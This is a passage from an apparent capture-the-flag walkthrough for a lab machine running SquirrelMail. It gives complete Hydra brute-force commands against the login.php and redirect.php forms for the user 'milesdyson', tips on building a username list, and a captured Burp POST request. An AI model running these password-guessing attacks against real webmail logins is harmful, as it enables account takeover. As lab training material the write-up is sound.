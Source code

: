 
**We found our mail-service** on http://10.10.10.190/squirrelmail/.  
  

> When we enter "http://10.10.10.190/squirrelmail/ in our browser we get directed to "http://10.10.10.190/squirrelmail/src/login.php. 
  
  
## <ins>Bruteforce Email Login</ins>
  


Now we can bruteforce for Task 1.
Lets use Hydra for this.
  
login.php

`hydra -l milesdyson -P passwords.txt 10.10.10.190 http-post-form "/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect." -V -F`
  


or the redirect.php  



`hydra -l milesdyson -P passwords.txt 10.10.10.190 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect." -V -F`
  
  
> If you wanna use a username list change in hydra syntax -l milesdyson with -L user.txt
  

<ins>How do i get this syntax? </ins>
    
First use hdyra -h or hydra man.  
Second step is to check the source code manually or use burp the find the login syntax. At line 55 and 60 in the source code you will find the login and password syntax.  
Credentials: We have a passwords list and a username from the SMB enumeration "milesdyson"
If we don't have any clear usernames we could build a username list by ourselves. (miles, dyson, milesdyson, dysonmiles, mdyson, dysonm)  
  

>> Burp Output. Last line!
  

```
POST /squirrelmail/src/redirect.php HTTP/1.1
Host: 10.10.10.190
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 75
Origin: http://10.10.10.190
Connection: close
Referer: http://10.10.10.190/squirrelmail/src/login.php
Cookie: squirrelmail_language=deleted; SQMSESSID=ik8u37odqjmoq77h0kspt2g3n0; PHPSESSID=q3ukqje9lue7hp9a23hg0rise5
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

login_username=test&secretkey=test&js_autodetect_results=1&just_logged_in=1
```
  
